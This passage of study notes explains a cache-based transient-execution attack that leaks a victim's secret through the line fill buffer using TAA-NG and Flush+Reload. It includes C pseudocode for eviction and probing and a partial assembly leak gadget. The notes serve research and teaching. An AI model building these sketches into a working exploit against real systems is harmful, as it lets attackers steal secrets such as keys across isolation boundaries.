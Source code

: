 First, the attacker finds the correct eviction set for the secret. The attacker then accesses this eviction set to evict the victim's secret from the L1-D cache. This actually transfers this data into the LFB, a previously [[#New Data Path|undocumented data path]].
### Step 3: TAA-NG
Then, using [[#TAA-NG]], the attacker leaks data from the LFB into the cache, i.e. the "send" step of this covert channel.
### Step 4: Flush and Reload
By using [[Flush and Reload]], the attacker receives the secret from the covert channel in the cache.
## Attacking Victim Reads
That is, leaking a victim's secret after they read the secret from an address.

Here is the main idea:
```c
// attacker:
// (1)
for (i = 0; i < 8; ++i) //evict secret from L1D cache
	*(evict_set + 4096 * i) = 0;

// victim:
// (2)
if (secret) { // this loads secret into the L1-D cache
	do_something();
}

// (3)
TAA-NG(FRbuffer);

// (4)
for (i = 0; i < 256; ++i)
	if (flush_reload(FRbuffer + i * 4096))
		++results[i];
```
### Step 1: Eviction
This is the same as in the write attack.
### Step 2: Victim Read
The victim uses the secret value in some way, effectively reading it and thus loading it into the L1-D cache.
### Step 3: TAA-NG
Same as write attack.
### Step 4: Flush and Reload
Same as write attack.
## TAA-NG
The relevant code is as follows:
```asm
 1 ; %rdi = leak source
 2 ; %rsi = FLUSH + RELOAD channel 
 3 ; %rcx = offset-control address 
 4 taa_ng_sample: 
 5 ; Cause TSX to abort asynchronously. 
 6 clflush (%rdi) 
 7 clflush (%rsi) 
 8 ; Leak a single byte. 
 9 xbegin abort 
 10 movq (%rdi), %rax 
 11 shl $12, %rax 
 12 andq $0xff000, %rax 
 13 movq (%rax, %rsi), %rax 
```